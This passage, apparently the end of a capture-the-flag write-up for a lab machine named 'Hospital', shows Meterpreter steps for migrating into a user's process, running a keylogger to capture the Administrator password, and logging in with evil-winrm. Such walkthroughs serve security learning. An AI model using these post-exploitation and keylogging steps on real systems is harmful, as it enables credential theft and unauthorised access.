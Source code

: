 <script>
function copyToClipboard(btn) {
    const code = btn.closest('.terminal-container').querySelector('code').textContent;
    navigator.clipboard.writeText(code).then(() => {
        btn.innerHTML = '<svg xmlns="http://www.w3.org/2000/svg" width="20" height="20" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round"><polyline points="20 6 9 17 4 12"></polyline></svg>';
        setTimeout(() => {
            btn.innerHTML = '<svg xmlns="http://www.w3.org/2000/svg" width="20" height="20" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round"><rect x="9" y="9" width="13" height="13" rx="2" ry="2"></rect><path d="M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1"></path></svg>';
        }, 1500);
    });
}
</script>

<img src="https://i.ibb.co/FvZTF74/15.png" alt="Hospital" width="750">

We then list processes with ps and migrate to one of the active ones, which was opened by the user drbrown:

- `migrate <PID>`

<img src="https://i.ibb.co/KJG1ZRs/16.png" alt="Hospital" width="750">

Start the Key-Logger with:

- `keyscan_start`

and after a few minutes, dump the key strokes, which were sent by the user drbrown

- `keyscan_dump`

<img src="https://i.ibb.co/WW5Gn7S6/17.png" alt="Hospital" width="750">

We successfully capture the Administrator password and now can use Evil-WinRM to log in:

<div class="terminal-container">
    <div class="terminal-header">
        <span class="terminal-dot red"></span>
        <span class="terminal-dot yellow"></span>
        <span class="terminal-dot green"></span>
        <span class="terminal-title">Evil-WinRM</span>
        <button class="copy-btn" onclick="copyToClipboard(this)">
            <svg xmlns="http://www.w3.org/2000/svg" width="20" height="20" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round">
                <rect x="9" y="9" width="13" height="13" rx="2" ry="2"></rect>
                <path d="M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1"></path>
            </svg>
        </button>
    </div>
    <div class="terminal-body">
        <pre><code class="language-bash">evil-winrm -i IP -u Administrator -p PASS</code></pre>
    </div>
</div>
